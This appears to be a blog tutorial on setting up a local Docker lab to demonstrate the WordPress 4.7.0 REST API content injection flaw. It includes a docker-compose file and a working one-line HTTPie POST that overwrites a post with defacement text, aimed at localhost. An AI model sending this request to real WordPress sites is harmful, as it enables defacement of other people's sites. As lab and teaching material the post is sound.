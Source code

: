 ```yaml
---
title: Creating a Quick PoC for an Exploit with Docker
summary: We will create a quick PoC for an exploit for a wordpress vulnerability to demonstrate the use of docker for PoC needs.
author: minn
type: post
date: 2019-02-18T11:47:24+00:00
url: /2019/02/18/creating-a-quick-poc-exploit-with-docker/
tags:
  - docker
  - httpie
  - wordpress vulnerability

---
```

We will create a quick PoC for an exploit for a wordpress vulnerability. This is just to demonstrate the use of docker for PoC needs. I'll be emphasizing more on the process than the vulnerability itself. For this demo, we will be exploiting an old content injection vulnerability. You can read about its technical details here, <https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html>.

In short, the exploit only requires to send a rest API call to the wordpress application. 

To stage the demo, we will:

  * Setup a container that runs vulnerable version of WordPress-4.7. We'll create a wordpress/mysql stack with docker compose.
  * Make an HTTP POST request with a new content that overwrites the original post. I will use HTTPie tool. You may choose any tool you're familiar with, eg: curl, Postman, Insomnia.

Pre-requisite:

  * You must have Docker already installed. Running the command `docker version` from CLI should return server version.
  * You have an HTTP client that can make json HTTP post. I already have HTTPie on my Mac. I installed with `brew install httpie`

Create a directory.

Save the following file as `docker-compose.yml`:

```yaml
version: '2'
services:
  wordpress:
    image: wordpress:4.7.0
    ports:
      - 8080:80
    environment:
      WORDPRESS_DB_PASSWORD: example
  
  mysql:
    image: mariadb
    environment:
      MYSQL_ROOT_PASSWORD: example
```

Within the same directory run the following command:

```shell-session
$ docker-compose up --force-recreate; docker-compose down -v
```

You should see Docker downloading images and spinning up the servers. Once finished you should be able to browse to `http://localhost:8080` from your browser. Follow the instructions to finish the installation (by entering site name, username, password, fake email). Then you will see the admin dashboard. Go to Settings > Permalinks and choose the second option to enable pretty links. Open another browser window or new tab and browse to `http://localhost:8080` again. You should see your blog and a Hello World post.

To start exploit, run the following command from the shell/terminal to overwrite the post content.

```shell-session
$ http -f POST localhost:8080/wp-json/wp/v2/posts/1/\?id=123abc \
   content:=\"This website has been hacked\"
```

Now browse the site again and observe the "Hello World" blog post content has changed.

To end the PoC, press Ctrl+C on the docker-compose terminal.